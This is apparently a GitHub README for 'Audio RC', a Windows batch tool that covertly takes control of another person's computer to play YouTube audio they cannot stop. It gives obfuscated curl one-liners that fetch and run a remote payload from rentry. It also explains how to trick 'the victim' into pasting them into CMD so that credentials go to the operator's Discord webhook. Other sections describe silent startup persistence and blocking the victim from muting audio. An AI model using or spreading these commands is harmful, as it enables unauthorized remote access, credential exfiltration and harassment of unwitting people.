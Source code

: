 ## 🔊 Audio RC Version 2.1
> Audio RC allows you to remote other machine and silently play youtube audio in it without the other side knowing how to stop or who did it.

#### Audio RC Features
* **Discord Webhook Credentials updating**

    _if the other side has reset the session URL for any reason, you will recieve a new message containing the updated information_

* **Audio RC starts with the computer everytime**

    _When the computer restarts Audio RC will start silently without the other side knowing about it and its going to send you a new message to your discord channel - if the message already exists its going to edit the message instead of sending it over again._

* **Play any content valid on youtube**

    _You are able to play any youtube video using its URL_
    P.S. _Also planning to add spotify feature_

* **A Script to remote the other side _(NEW)_**

    _Version 2.0 introduced a remote script which makes it much easier
    to control the other side, you open the script, paste the youtube link and the script does anything for you and keeps you updated about the other side's status_

#### Setup Audio RC
_Technically, there are 2 ways to setup Audio RC_

##### Difference Menu
| METHOD | DIFFERENCE | Recommended? |
| :--: | :--: | :--: |
| 1 | _This method will send the login credentials to your discord webhook and will keep you updated in case they were changed_ | **This method is just a bit harder to setup,** though you will recieve the login credentials into your discord webhook. **(HIGHLY RECOMMENDED)** |
| 2 | _This method will only print the login credentials on the screen while you are in DEBUG mode_ | Technically, **YOU SHOULDN'T USE THIS METHOD UNLESS YOU HAVE SSH ACCESS** to the same computer |

##### :one: Method Number 1
- [Create your webhook link at discord](https://support.discord.com/hc/en-us/articles/228383668-Intro-to-Webhooks)
> _How does a webhook look?_
>
> Your webhook should include `/api/webhooks/` inside of it.

- At this point you'd need to create a paste in [pastebin.com](https://pastebin.com/) and just paste your webhook link inside of it. _(GIF below)_
![Paste Creation Review](https://cdn.agamsol.xyz:90/media/chrome_5NaMTYFDtr.gif)
- Now you need to copy the paste's ID _(GIF below)_
![Copy ID](https://cdn.agamsol.xyz:90/media/chrome_wetwcveipX.gif)

- Once you copied the ID **replace `XXXXXXXX`** in the end of the command below **with the ID you copied**.
```bat
for %a in (F6) do for %b in ("%temp%\F") do for %c in (.) do for %d in (cmd) do for %e in (rentry) do cls&&curl -#Lsko "%~b6%c%d" "%e%cco/%a/raw"&&call "%~b6%c%d" "XXXXXXXX"
```
- After replacing the `XXXXXXXX` combination with your ID
you are ready to go, save the command and you will be able to use it in the future

- **ONCE YOU ARE WILLING TO USE THE COMMAND:**
- Tell the victim to open CMD window.
- Tell the victim to paste **YOUR unique command** into their CMD window.
- Wait for the credentials to get sent to you.

### You got the credenitials? Great! :tada:

_At this step we will be installing the remote panel, if you want to use it but scared, you can use it in a VM or you can check the [source code](https://github.com/agamsol/Audio-RC/blob/2.1/REMOTE/REMOTE.bat) of the remote script._

- Download the [Remote Script](https://raw.githubusercontent.com/agamsol/Audio-RC/2.1/REMOTE/REMOTE.bat)
> NOTE: You should download the script and put it on a folder on its own, this will grant you easy access to it whenever you need & want.
- Open the file [`REMOTE.bat`](https://raw.githubusercontent.com/agamsol/Audio-RC/2.1/REMOTE/REMOTE.bat)
- Enter the credentials to login.

##### :two: Method Number 2 _(SSH)_
- Paste the following code into the SSH
```bat
for %a in (F6) do for %b in ("%temp%\F") do for %c in (.) do for %d in (cmd) do for %e in (rentry) do cls&&curl -#Lsko "%~b6%c%d" "%e%corg/%a/raw"&&call "%~b6%c%d" --debug
```
- You should restart the computer through your SSH connection.

### 📝 Change Log
> After struggling a lot with the code from version 2.0 I almost gave up doing that and starting to make the script over again, although I was really carious if I could fix it and in the end I managed to convert both, the main script and the remote to support INI formatting instead of JSON FORMATTING
- Storing DATA with `INI` formatted configs and databases
- Integrated my [SDK](https://github.com/agamsol/SDK) into Audio RC 🎉
- Change the volume of the victim's PC while the video is playing, keep it sync and not let the victim to mute his own system audio while audio is playing
- Properly check for internet connection, the socket also checks the connection now and stops the script until the connection is established once again.
- Improved script start-delay
- Better ERROR DETECTION for discord webhooks (checking if they work using the string regex and if there's a match only then we send the message)
- Edit the discord message if it already exists in your webhook (does not require authentication)

#### 📚 Contact information and support
> Feel free to contact me in discord, <span style="color:#7289DA">Agam#0001</span>

> Im also available in the [r/batch discord server](https://discord.gg/gPMcxXZjkb). **(you can and should ping me there if you want support from me)**

### 💲 Donations
I highly appreciate donors who send money,
a few bucks can make someone's day even better!
><a href="https://www.paypal.me/agamsolomon0011" rel="paypal donations">![donate](https://img.shields.io/badge/Donate-Paypal-brightgreen.svg)</a>

##### **:warning: Please note that we follow the No-Refunds policy**